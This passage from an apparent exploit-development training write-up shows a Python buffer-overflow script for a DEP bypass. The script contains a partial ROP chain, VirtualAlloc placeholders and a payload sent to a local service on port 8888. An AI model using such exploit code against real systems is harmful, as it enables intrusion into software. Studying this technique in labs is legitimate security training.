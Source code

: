We are on the last instruction here.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2007:36:03.png)

And after execute it, we got what we want!

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2007:46:16.png)

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

def create_rop_chain():
        rop_gadgets = [
                ##############
                # -> Make ESP equal to ECX (-20)
                ##############
                ## Copy ESP to EBX, and put -20 in ESI
                0x6aaf2fd3, # push esp; pop ebx; pop esi; ret;
                0xffffffe0, # - 20 in ESI
                ## Put EBX (ESP) to ECX
                0x61b460d0,  # xchg eax, ebx; ret;
                0x68be726b,  # xchg eax, ecx; ret;
                ## Put -20 to EBP
                0x68aef542,  # xchg eax, esi; ret; 
                0x6d9c5993,  # xchg eax, ebp; ret; 
                ## ADD EBP on ECX, make 20 bytes before
                0x6d9c8e42,  # add ecx, ebp; ret; 

                ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

virtual_alloc_placeholder = pack("<L", (0x45454545)) # KERNEL32!VirtuaAllocStub
virtual_alloc_placeholder += pack("<L", (0x46464646)) # Shellcode Retrun Addres
virtual_alloc_placeholder += pack("<L", (0x47474747)) # Shellcode Address
virtual_alloc_placeholder += pack("<L", (0x48484848)) # dwSize
virtual_alloc_placeholder += pack("<L", (0x49494949)) # flAllocationType
virtual_alloc_placeholder += pack("<L", (0x51515151)) # flProtect


payload = b'\x41' * (1052 - len(virtual_alloc_placeholder))
payload += virtual_alloc_placeholder
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 10
	
target = b'127.0.0.1'

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Crashed!"
```
